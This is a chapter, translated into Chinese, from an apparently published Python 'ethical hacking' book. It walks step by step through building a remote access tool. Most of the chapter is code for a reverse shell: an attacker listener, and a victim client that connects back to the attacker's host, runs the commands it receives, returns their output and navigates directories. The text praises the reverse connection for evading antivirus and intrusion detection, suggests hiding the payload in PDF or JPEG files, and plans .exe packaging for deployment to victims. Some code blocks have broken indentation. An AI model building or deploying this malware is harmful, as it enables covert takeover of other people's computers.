








# 6

## 恶意软件开发

在之前的章节中，我们学习了如何收集与用户相关的信息以及这些信息如何被用来攻击受害者。在本章中，我们将进入一个新的维度并开发一个远程访问工具（RAT）。RAT 允许渗透测试人员远程访问受害者的计算机，并在网络安全领域被广泛使用。互联网上存在着更多更先进的 RAT 程序。然而，本章的目标是帮助你构建自己的 RAT，这将赋予你更高级的控制权。

在本章中，我们将涵盖以下主题：

- RAT 简介
- Python 中的 Socket 编程
- 创建恶意软件
- 在受害者上远程运行命令

## 理解 RAT

RAT 在网络安全中已被广泛使用，并且存在许多流行的 RAT。一些黑客甚至提供定制且难以检测的 RAT 以用于获取对受害者计算机的访问权。在最简单的形式中，RAT 是一种与另一台计算机建立网络连接并执行操作的程序。RAT 可以是合法软件，例如常见的商业软件如 TeamViewer，通常由 IT 专业人员用来诊断远程计算机并检测问题。然而，这些程序也可能被黑客用来控制受害者的机器，因此你在使用这些程序时应非常谨慎。

在最简单的形式中，RAT 是一对程序。一个程序运行在受害者上，而另一个程序运行在攻击者的机器上。这些程序的工作方式有两种主要配置，取决于谁发起通信。定义如下：

- 攻击者发起连接的程序，称为 **正向连接**
- 导致受害者机器向黑客机器建立连接的程序，称为 **反向连接**

让我们在以下章节中详细了解这些。

## 正向 Shell

在现代计算机系统中，正向连接几乎是不可能的，因为大多数 PC 的安全配置不允许远程设备发起连接，除非防火墙中有特定规则。默认情况下，所有传入连接都被防火墙阻止。这些连接只有在受害者机器上存在可被黑客利用的开放端口时才有可能。然而，你会发现这在大多数典型场景中并非如此。

## 反向 Shell

反向 Shell 采用相反的方法。攻击者不会向受害者发起连接，而是会在受害者机器上植入恶意软件/有效载荷（在受害者机器上执行的代码）。这样，与外部连接不同，内部连接将由受害者发起，这使得 **入侵检测系统（IDSes）** 如防火墙和防病毒程序更难以检测系统上的恶意活动。这种攻击的部署方式是攻击者向受害者发送包含恶意软件的恶意文件，例如嵌入在 PDF 或 JPEG 文件中。对受害者来说，它看起来像一个普通文件，但当受害者点击文件打开时，后台会执行一个脚本，该脚本会向攻击者发起连接。一旦与攻击者的连接建立，攻击者就可以轻松控制受害者的机器并在受害者机器上远程执行命令。现在我们已经了解了正向 Shell 和反向 Shell，让我们继续讨论 Python 中的套接字。

## Python 中的 Socket 编程

在学习恶意软件开发之前，有必要学习 Python 中的网络编程以及如何创建网络应用程序。学习网络编程的第一步是学习我们所说的 *套接字*。套接字为创建基于网络的应用程序提供了一种基本机制，而我们的恶意软件本质上就是一个网络应用程序。让我们先从理解套接字开始。

## 套接字

在我们进入套接字编程之前，让我们先了解网络套接字是什么以及它如何用于开发基于网络的应用程序。正如我们在前几章中所学，网络栈的最上层是应用层。这些是用户在日常生活中交互的应用程序。现在，问题是，这些用不同编程语言开发的应用程序如何在网络上通信？答案在于使用套接字。套接字在此定义：https://docs.oracle.com/javase/tutorial/networking/sockets/definition.html。

套接字是网络上运行的两个程序之间双向通信链路的一个端点。套接字绑定到一个端口号，以便 TCP 层可以识别数据目的地要发送到的应用程序。

套接字通常用于客户端-服务器通信，其中一个节点是发起连接的客户端，而另一个节点是响应该连接的服务器。在连接的每一端，每个进程，例如网络发起程序或网络响应程序，都会使用一个套接字。套接字通常由 IP 地址与端口号连接起来标识。在典型场景中，服务器通常在某个端口上监听来自客户端的传入连接请求。一旦客户端请求到达，服务器接受请求并与客户端建立套接字连接。

实现特定服务的服务器，例如 **HTTP、FTP** 和 **telnet**，监听流行的众所周知的端口，例如 80、21 和 23。1-1024 端口被视为众所周知的端口，不应在实现自己的程序时使用，因为它们已被保留。让我们尝试了解套接字如何在 Python 中工作，并在下一节中学习如何利用这一点来创建我们的恶意软件程序。

## 在 Python 中创建套接字

要在 Python 中创建套接字，我们可以利用 `socket` 库。该库是 Python 标准包的一部分，因此我们无需安装任何东西。

该模块可以通过简单地输入以下代码导入：

```
import socket
```

让我们来看看该模块的 **应用程序编程接口（API）**。API 是代码库的软件接口，让你以某种抽象级别访问代码的功能。

## socket.socket() API

要创建套接字对象，我们可以使用名为 `socket()` 的以下函数。让我们看看此方法 的参数。要查看 VS Code 中函数可用的参数，你可以简单地写出函数名，然后使用 VS Code Intelli Sense 技术（帮助你编写代码并提供建议），你可以看到需要哪些参数。要访问此菜单，如果你将光标放在函数名上，将会出现一个小弹出窗口，指示该方法所需 的参数。如果你想查看此方法的详细实现，可以右键单击 `socket` 函数的名称并选择 **转到定义**。这将打开一个定义此方法的文件。请注意不要更改此处 的任何内容。如果你没有使用 VS Code，你可以阅读 Python socket 模块的相关文档：https://docs.python.org/3/library/socket.html。该方法的实现看起来像这样：

## socket.connect()

正如我们所见 socket.accept() 会阻塞执行直到客户端连接，那么问题就来了，客户端如何连接？这就是 socket.connect() 发揮作用的地方。此方法会向服务器发起连接，如果服务器正在等待传入连接，通信将随之进行。当调用 socket.connect() 时，服务器中的 socket.accept() 会被解除阻塞，程序执行继续进行。不要担心，如果你现在对服务器中调用哪些函数、客户端中调用哪些函数感到非常困惑。你将在我们构建示例时对这一点有清晰的认识。

## socket.send()

一旦服务器和客户端程序之间建立连接，程序中最重要的一部分就来了，即通过这些连接发送数据。这就是大部分用户定义逻辑所在的地方。socket.send() 方法用于通过网络发送字节。请注意，此函数的输入是字节，因此你希望通过此连接发送的任何数据都应以字节形式存在。将适当的数据编码为字节并在接收端解码是用户的责任。

## Socket.recv()

此方法顾名思义，用于在用户发送数据后接收字节。请注意，对发送或接收方法的每次调用都应妥善处理。例如，如果服务器正在发送数据，客户端应准备好接收这些数据，反之亦然。此方法的输入是你一次想要接收的字节数。这是程序创建的缓冲区，用于临时存储数据，一旦到达一定数量的字节，就可以读取它们，缓冲区就可以准备好进行下一个周期。

## socket.close()

一旦你完成了对程序想要做的一切，就必须关闭套接字，以便端口可以供其他程序使用。请注意，即使你没有正确关闭套接字，一旦你的程序退出或计算机重新启动，你的操作系统也会在一段时间后释放它。然而，手动在程序内部关闭这些套接字始终是一个好主意。如果程序退出且套接字未正确关闭，任何传入请求可能会被阻止，或者操作系统可能拒绝为下一个程序使用此套接字，因为它可能认为端口仍在使用中。


## 整合起来

到目前为止，我们已经学习了 socket API 的不同方法，但为了清楚地了解每个函数如何以及在何处使用，我将在此处对所有内容进行总结。我们将同时运行两个程序。一个将是监听传入连接的服务器，另一个将是尝试建立连接的客户端。让我们看一下下面的图表，了解 socket API 中各部分是如何配合的：



图 6.2 – Python 中客户端和服务器的 socket 使用情况

该图表显示了两个并发运行的独立程序，即客户端和服务器。你可能在想这个客户端和服务器与我们的黑客目的有什么关系？嗯，我们将采用类似的方法来开发我们的恶意软件。我们将编写两个程序。一个程序将在黑客机器上运行，我们称之为服务器/黑客程序，另一个将在客户端运行；我们将称之为受害者程序。受害者程序将尝试与黑客程序连接。这样，由于连接是由受害者机器发起的，反病毒软件或 IDS 将不会阻止它。在本节中，我们学习了 Python 中 socket 编程的工作原理。我们没有详细说明如何创建这些程序。在下一节中，我们将利用此 socket API 创建恶意软件的受害者部分和黑客部分。

## 创建恶意软件

现在我们已经看到了恶意软件程序的大致轮廓，让我们开始编写黑客和受害者程序。

## 黑客服务器

在本节中，我们将为黑客服务器编写一个程序，该程序将不断监听来自受害者机器发往黑客的传入连接。让我们进入 Kali 机器并创建一个名为 hacker server 的新项目。此外，像之前章节一样创建一个新的虚拟环境。本节中我们不需要任何外部库，但使用虚拟环境来跟踪程序中的依赖项始终是一个好主意。此外，创建一个名为 server.py 的新文件。

我们的 Kali 机器的 IP 地址是 192.168.74.128，受害者 Windows 机器的是 192.168.74.129。接下来，我们需要选择要监听传入连接的端口。你可以选择大于 1024 且小于 65355 的任意端口。然而，我们将使用端口号 8008。这将是服务器绑定的端口，如果客户端想要与服务器连接，则需要使用此端口。让我们导入 socket 模块并创建一个 socket 对象。看一下以下代码：

```
import socket

if __name__ == "__main__":
    hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

这里，第一行我们只是从 Python 标准库导入 socket 模块。接下来，我们正在创建一个 socket 对象。两个参数是 socket.AF_INET 和 socket.SOCK_STREAM。让我们看看它们的含义。还记得我们谈论过 IPv4 和 IPv6 地址吗？这正是 socket.AF_INET 的含义。我们使用的是 IPv4，用 socket.AF_INET 表示。如果你想使用 IPv6（你可能不会），你可以选择 socket.AF_INET6。接下来，我们需要定义想要使用的网络层协议。这里，我们可以选择 TCP 或 UDP。在我们的示例中，我们想要一个可靠的连接，因此我们将选择 TCP。socket.SOCK_STREAM 表示我们正在创建一个 TCP socket。如果你想创建一个 UDP socket（同样，大多数情况下你可能不会），你可以使用 socket.SOCK_DGRAM。

接下来，我们将此服务器绑定到 Kali 的 IP 地址和端口 8008：

```
IP = "192.168.74.128"
Port = 8008
```

```
socket_address = (IP, Port)
hacker_socket.bind(socket_address)
```

请注意，你必须以元组形式提供 IP 地址和端口给 socket.bind() 方法。

接下来，我们需要使用以下命令在指定的 socket 上监听传入连接：

```
hacker_socket.listen(5)
```

现在我们的程序配置几乎完成，我们可以开始监听传入的连接请求：

```
hacker_socket.listen(5)
print("listening for incoming connection requests")
hacker_socket, client_address = hacker_socket.accept()
```

程序的执行将在此处暂停。一旦客户端连接，此方法将返回两个参数。第一个是 hacker_socket，我们可以用它来发送和接收数据，第二个是受害者的地址。这将帮助程序知道哪个客户端已连接。

一旦连接被接受，我们就可以使用此 socket 通过网络发送消息。如前所述，accept 函数是阻塞的，这意味着执行在此处暂停，直到有人连接。为了演示这一点，让我们运行程序。你将看到以下输出：


图 6.3 - 等待传入连接

你会看到程序不会在此步骤之后继续。你可以按 Ctrl + C 退出程序。现在，让我们尝试从黑客向受害者发送一条简单消息。目前，我们将发送一个简单字符串，但在后面的章节中，我们将发送更高级的数据，例如文件：

```
message = "Message from hacker"
message_bytes = message.encode()
hacker_socket.send(message_bytes)
print("Message sent from hacker")
```

message.encode() 方法将消息字符串转换为字节，因为 socket.send() 方法只接受字节。

最后，我们将通过调用 close() 方法关闭此 socket。

黑客程序的完整代码如下所示：

```
import socket

if __name__ == "__main__":
    hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    IP = "192.168.74.128"
    Port = 8008
    socket_address = (IP, Port)
    hacker_socket.bind(socket_address)
    hacker_socket.listen(5)
    print("listening for incoming connection requests")
    hacker_socket, client_address = hacker_socket.accept()
    message = "Message from hacker"
    message_bytes = message.encode()
    hacker_socket.send(message_bytes)
    print("Message sent")
    hacker_socket.close()
```

我们的黑客程序现已完成。接下来，我们将转向受害者程序，该程序将与黑客建立连接。

## 受害者的客户端

进入 Windows 10 机器并为受害者创建一个新项目。前几步将与黑客程序类似。看一下以下代码：

```
import socket

if __name__ == "__main__":
    victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    hacker_IP = "192.168.74.128"
```

```
hacker_port = 8008
```

```
hacker_address = (hacker_IP, hacker_port)
```

由于我们想要连接到黑客，我们将提供黑客的 IP 和黑客正在监听的相应端口。

接下来，我们将为 hacker_address 创建一个元组。

下一步是使用受害者的 socket 与黑客 connect()：

```
victim_socket.connect(hacker_address)
```

一旦调用此方法，如果服务器正在监听，我们将建立成功的连接，否则我们会看到错误消息。如果你现在运行程序，你会看到连接被拒绝的消息：



图 6.4 – 连接失败

这是因为，如果没有服务器监听某个端口，默认情况下所有传入流量都会被阻止。还记得在我们的黑客程序中，我们正在发送消息吗？我们需要在此处处理该消息，否则会出现错误。我们可以使用 recv 方法来接收消息：

```
data = victim_socket.recv(1024)
```

1024 是 socket 一次可以读取的字节数。来自黑客的超过此数量的任何数据都将被截断。我们可以使用循环来接收更多数据。目前，这个数字足够了。

最后，由于我们以字节形式接收数据，我们需要将它们解码为字符串以便打印，并在以后在程序中使用它们（如果我们想要）：

```
print(data.decode())
```

```
victim_socket.close()
```


我们可以使用 close() 方法关闭套接字。完整的程序如下：

```
import socket

if __name__ == "__main__":
    victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    hacker_IP = "192.168.74.128"
    hacker_port = 8008
    hacker_address = (hacker_IP, hacker_port)
    victim_socket.connect(hacker_address)
    data = victim_socket.recv(1024)
    print(data.decode())
    victim_socket.close()
```

现在我们的黑客和受害者程序已以最简单的形式完成。黑客正在监听传入连接，而受害者尝试与黑客程序连接。一旦连接建立，黑客就会向受害者发送一条消息。受害者接收消息并简单地打印出来。双方随后关闭各自的连接。到目前为止我们所学的是通用的套接字编程。一旦我们了解如何在网络中的两台设备之间创建连接，我们就可以采用这些程序来创建恶意程序，从而允许黑客在受害者计算机上执行恶意活动。

让我们把这一切联系起来。首先运行黑客程序，然后运行受害者程序。这次，连接将被正确建立，并且在黑客机器上，你将看到以下输出：



同样，受害者将接收到消息并在屏幕上显示：



我们已经完成了拼图的一部分，即从受害者机器创建到黑客机器的成功连接，并在受害者机器上接收到黑客发送的一条小消息。这可能看起来不是一个大任务，但这是一个非常强大的工具。利用它，你基本上可以从黑客处获取命令。设计受害者程序在机器上运行这些命令并将结果发送回黑客。在下一节中，我们将学习如何从黑客机器向受害者机器发送命令并将结果发送回黑客。

## 在受害者机器上远程运行命令

我们已经在第 3 章《侦察和信息收集》中，在《创建 Python 脚本》部分，看到如何使用 Python 在计算机上运行命令。我们将在此知识的基础上构建一个恶意软件，该恶意软件将接收命令并在受害者机器上执行它们。我们之前的程序只是向受害者发送一条消息然后退出。这次，我们将修改程序使其做更多的事情。

在 Kali 机器上打开一个新项目以在受害者机器上执行命令并创建一个新文件。让我们首先建立连接：

```
import socket

if __name__ == "__main__":
    hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    IP = "192.168.74.128"
    Port = 8008
    socket_address = (IP, Port)
    hacker_socket.bind(socket_address)
    hacker_socket.listen(5)
    print("listening for incoming connection requests")
    hacker_socket, client_address = hacker_socket.accept()
```

下一步涉及获取用户输入，即我们希望在受害者机器上运行的命令。获取输入后，我们必须将其转换为字节并通过连接发送到受害者程序：

```
command = input("Enter the command ")
hacker_socket.send(command.encode())
```

一旦命令发送，受害者端程序将负责执行它并返回结果。在这里，在黑客程序中，我们只需接收受害者返回的内容并将其打印为结果：

```
command_result = hacker_socket.recv(1048)
print(command_result.decode())
```

接下来，我们将把这放入一个循环中并添加退出条件：

```
while True:
    command = input("Enter the command ")
    hacker_socket.send(command.encode())
    if command == "stop":
        break
    command_result = hacker_socket.recv(1048)
    print(command_result.decode())
```

if 语句确保我们可以在需要时安全地退出此循环，以免陷入无限循环。此外，为了确保在执行期间遇到任何错误时正确关闭套接字，我们将添加 try-catch 块进行异常处理。用于执行命令的完整黑客程序如下所示：

```
import socket

if __name__ == "__main__":
    hacker_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    IP = "192.168.74.128"
    Port = 8008
    socket_address = (IP, Port)
    hacker_socket.bind(socket_address)
    hacker_socket.listen(5)
    print("listening for incoming connection requests")
    hacker_socket, client_address = hacker_socket.accept()
    print("connection established with ", client_address)
    try:
        while True:
            command = input("Enter the command ")
            hacker_socket.send(command.encode())
```

```
if command == "stop":
    break
    command_result = hacker_socket.recv(1048)
    print(command_result.decode())
except Exception:
    print("Exception occured")
    hacker_socket.close()
```

在受害者端，我们将接收黑客发送的命令并使用 subprocess 模块执行命令，最后将结果发送回黑客。这部分将在 Windows 10 机器上编码。让我们在 Windows 机器上创建一个新项目并尝试遵循与创建与黑客程序连接相同的步骤：

```
import socket
if __name__ == "__main__":
    victim_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    hacker_IP = "192.168.74.128"
    hacker_port = 8008
    hacker_address = (hacker_IP, hacker_port)
    victim_socket.connect(hacker_address)
```

正如我们在黑客程序中所看到的，我们有一个 while 循环来连续发送命令，我们将在此处采用类似的方法：

```
data = victim_socket.recv(1024)
    hacker_command = data.decode()
```

我们将在此处添加与黑客程序中相同的退出条件：

```
if hacker_command == "stop":
    break
```



图 6.7 – 黑客在受害者上执行命令

在这里，你可以看到黑客向受害者发送 ipconfig 命令。受害者程序读取命令，在受害者上执行它，并将结果发送回黑客。程序有一些小问题，我们现在将讨论。首先，受害者程序只尝试连接一次黑客，如果黑客没有监听，程序将抛出错误并退出。这并不理想，因为我们希望在需要时连接到受害者。为此，我们将把 connect() 方法放在循环内，以便它可以尝试持续与黑客建立连接，并且当黑客在线时，连接会立即建立。查看此处受害者程序的代码：https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py。

让我们现在看看在此程序中做出的更改。首先，有一个外部 while 循环。此循环的目的是不断尝试与黑客建立连接，如果发生错误，则等待 5 秒后再尝试重新连接。一旦在循环内部建立连接，就有一个内部循环确保黑客可以向受害者发送多个命令。通过使用 stop 命令，黑客可以退出此 while 循环。最后，如果你想关闭程序，还有一个键盘中断异常。按 Ctrl + C 退出程序。这样，此程序不会无限运行。

所以现在我们已经解决了第一个问题。现在我们需要只运行一次受害者程序，它将不断尝试与黑客连接，并且当黑客可用时，它将连接。我们的程序还有另一个小问题。当黑客程序要求输入命令时，如果我们只是按 Enter，它会引起问题，因为 Enter 不是有效命令。我们也需要处理它。为此，我们可以简单地包含一个检查，以确保黑客不会输入空命令。为此，输入以下命令：

```
if command == "":
    continue
```

我们将在黑客程序和受害者程序中都放置此检查。

最后，如果你仔细观察，我们只能发送和接收小于 1,024 字节的数据，因为在我们的接收函数中定义了这一点。任何超过此限制的数据将被截断。要更详细地查看，请转到 Windows 机器并运行任何结果超过 1,024 字节的命令。例如，让我们看看 systeminfo 命令。此命令输出系统信息，并且输出相对较大：



图 6.8 – systeminfo 结果


现在，使用你的黑客程序运行相同的命令。你的输出将如下所示：



图 6.9 – 被截断的命令结果

正如你所见，我们只能接收 1,024 字节。这不是我们想要的。为了获取完整的结果，我们需要做一些修改。在受害者程序上，我们将在 command_result 的末尾附加一个特殊标识符。使用此标识符，我们将在黑客程序中继续读取数据，直到到达该标识符。这将作为黑客程序的标记，知道我们已完成接收所有数据并且可以停止。

标识符字符串如下：

```
IDENTIFIER = "<END_OF_COMMAND_RESULT>"
```

要将此标识符添加到 command_result，我们将首先将结果从字节解码为字符串，然后在末尾附加标识符，最后再次将字符串转换为字节，如下所示：

```
command_result = output.stdout
command_result = command_result.decode("utf-8") + IDENTIFIER
command_result = command_result.encode("utf-8")
```

这次，我们将不再使用 send() 方法，而是使用 sendall() 方法。

在黑客端，我们将定义完全相同的标识符，以便我们可以匹配它。现在，我们将不再只是接收 1,024 字节，而是添加一个 while 循环，该循环将持续接收数据并将其存储在数组中，直到找到标识符，然后我们将删除标识符并存储剩余的结果。

请看以下接收代码：

```
full_command_result = b""
while True:
    chunk = hacker_socket.recv(1048)
    if chunk.endswith(IDENTIFIER.encode()):
        chunk = chunk[:-len(IDENTIFIER)]
        full_command_result += chunk
        break
    full_command_result +=chunk
print(full_command_result.decode())
```

我们定义了一个 full_command_result 变量来保存完整的结果。然后我们编写一个循环来持续读取缓冲区，直到到达标识符。一旦到达标识符，我们将从结果中删除标识符，将剩余的字节添加到 full_command_result 中，跳出循环，最后将其解码以打印。黑客的完整程序如下所示：https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py。

同样，受害者的完整程序如下所示：https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py。

现在我们已经开发了一个黑客程序，它将在 Windows 受害者机器上执行命令并将完整结果返回给黑客。该程序将完美运行。然而，由于我们仅处理命令结果的输入和输出，因此更改目录的命令在此处将无法正常工作。接下来，我们将专注于制作一个程序，以便我们也可以导航目录。如果你去你的 Windows 机器并打开命令提示符，你可以使用 cd 命令来导航目录，我们在这里也会使用类似的方法。因此，当用户输入更改目录命令时，我们将根据给定的命令在受害者机器上移动到不同的目录。在本节中，我们学习了如何从黑客程序运行命令并将结果返回给黑客。在下一节中，我们将学习如何通过从黑客程序发出命令来在受害者计算机上导航目录。

## 导航目录

我们将使用一个新的模块来更改目录，称为 os 模块。该模块包含在 Python 的标准库中，因此你无需安装它。只需在程序中通过编写以下命令导入该模块即可：

```
import os
```

我们需要做的第一件事是检测用户在黑客程序中输入 cd 命令时。在字符串 command 上调用 startswith() 方法可以实现这一点。我们将检测命令，将命令发送到受害者程序，然后跳过循环的其余部分，如下所示：

```
if command.startswith("cd"):
    hacker_socket.send(command.encode())
    continue
```

我们程序的第一部分现在已完成。接下来，我们需要在受害者程序上接收此命令，对其进行解码，检查命令类型，例如导航目录，然后找到我们想要移动到的路径。假设如果我们想在目录中后退（在层次结构中向上一步），我们输入以下命令：

```
cd ..
```

cd 是命令的名称，.. 是我们想要移动到的路径。因此，在受害者程序上，我们将首先使用相同的检查条件来查看 hacker_command 是否以 cd 开头。如果是，我们将剥离命令以检索我们想要进入的路径。最后，我们将使用 os.chdir() 方法导航到输入的目录（如果存在）：

```
if hacker_command.startswith("cd"):
    path2move = hacker_command.strip("cd ")
    if os.path.exists(path2move):
        os.chdir(path2move)
    else:
        print("can't change directory to ", path2move)
    continue
```

在 Windows 中，你可以通过在 shell 中输入 pwd（当前工作目录）命令来查看当前目录。现在让我们运行黑客和受害者程序，看看我们如何导航目录：



图 6.10 – 更改目录

正如前面的屏幕截图所示，我们首先使用 cd .. 命令在文件夹中向上导航并移动到用户文件夹。然后，我们通过 cd Desktop 命令导航到桌面文件夹。这样，我们就可以在文件系统中向上或向下移动。黑客程序的完整代码如下：https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example08-hacker-malware/hacker.py。

同样，受害者程序的完整代码如下所示：https://github.com/PacktPublishing/Python-Ethical-Hacking/blob/main/example09-victim-malware/victim.py。

前面的程序将允许黑客执行命令并将受害者 PC 的基本控制权交给黑客。黑客可以使用它作为模板为程序构建更高级的功能。你可能会想，我们到目前为止编写的所有代码都是 Python 脚本的形式，为了部署它并进行成功的黑客攻击，受害者 PC 必须安装 Python 并且脚本必须手动运行，这似乎不是一个好主意。别担心。在第 8 章《后利用》中，我们将研究如何将我们的 Python 代码打包成一个包含所有依赖项的单个可执行文件。这样，我们就不必担心受害者是否安装了 Python。我们将从脚本创建 .exe 文件并将其部署到受害者。有关更多信息，请参阅下一章。

## 总结

在本章中，我们首先学习了套接字编程，然后学习了如何使用套接字创建网络应用程序。我们的网络应用程序包括黑客和受害者程序，这有助于我们从基于 Linux 的黑客程序发送 Windows 系统命令，在 Windows 上执行它们，并将结果返回给黑客。我们还学习了如何导航文件流。我们的 RAT 基础版本已完成。尽管其功能有限，但它为我们提供了创建更高级的恶意软件程序的基础知识的坚实理解。在下一章中，我们将为我们的 RAT 添加更多功能，例如传输文件。下一章见！
